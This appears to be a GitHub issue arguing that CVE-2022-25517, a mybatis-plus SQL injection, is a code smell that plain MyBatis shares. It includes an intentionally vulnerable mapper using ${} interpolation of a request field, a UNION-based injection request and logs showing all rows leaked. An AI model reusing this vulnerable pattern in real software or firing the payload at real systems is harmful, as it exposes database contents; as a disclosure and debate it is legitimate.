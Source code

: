 # Background
Here is the POC and root cause why CVE-2022-25517 was generated: [POC](https://web.archive.org/web/20220323002637/https://github.com/HaHarden/mybatis-plus-sql-Injection) 

But without mybatis-plus, only using mybatis, we can reproduce the same issue. Please check this demo:
https://github.com/XSun771/demos/tree/mybatis-sql-injection

**By this demo, I want to prove that CVE-2022-25517 should not be an CVE issue. At least if it is, then it is also applicable to Mybatis. Instead, it should be a bad code smell.**

# My POC

## code
```java
@Select("SELECT * FROM ARTICLES WHERE ${columnName} = #{columnValue}")
List<Article> select(@Param("columnName") String columnName, @Param("columnValue") String columnValue);
```

I know you may say , "oh, it is highlighted by Mybatis developers that you should not use `${}` but `#{}` which will check sql injection".

But I must highlight that it is also highlighted in mybatis-plus official documents that everyone needs to do SQL inject check first.

So if you agree that because mybatis developers highlights that you should not use ${} then there is no need to raise CVE issue for mybatis, then why not agree that no need to raise CVE issue to mybatis-plus?

```java
@RequestMapping("/enquiry")
public String enquiry(@RequestBody Enquiry enquiry) {
    return this.articleMapper.select(enquiry.getColumnName(),enquiry.getColumnValue()).toString();
}
```

## attack

I made usage of IDEA http client, the script file is at `src/main/resources/generated-requests.http`.

```
POST http://localhost:9000/enquiry
Content-Type: application/json

{
"columnName": "(id=1) UNION SELECT * FROM ARTICLES WHERE 1=1 OR id",
"columnValue": "1"
}
```

Attachk result:

```
2024-09-16T11:42:48.220+08:00 DEBUG 2736 --- [mybatis-sql-injection] [nio-9000-exec-2] c.e.m.ArticleMapper.select               : ==>  Preparing: SELECT * FROM ARTICLES WHERE (id=1) UNION SELECT * FROM ARTICLES WHERE 1=1 OR id = ?
2024-09-16T11:42:48.229+08:00 DEBUG 2736 --- [mybatis-sql-injection] [nio-9000-exec-2] c.e.m.ArticleMapper.select               : ==> Parameters: 1(String)
2024-09-16T11:42:48.244+08:00 DEBUG 2736 --- [mybatis-sql-injection] [nio-9000-exec-2] c.e.m.ArticleMapper.select               : <==      Total: 3

[Article(id=1, title=foo, author=foo), Article(id=2, title=bar, author=bar), Article(id=3, title=333, author=333)]
```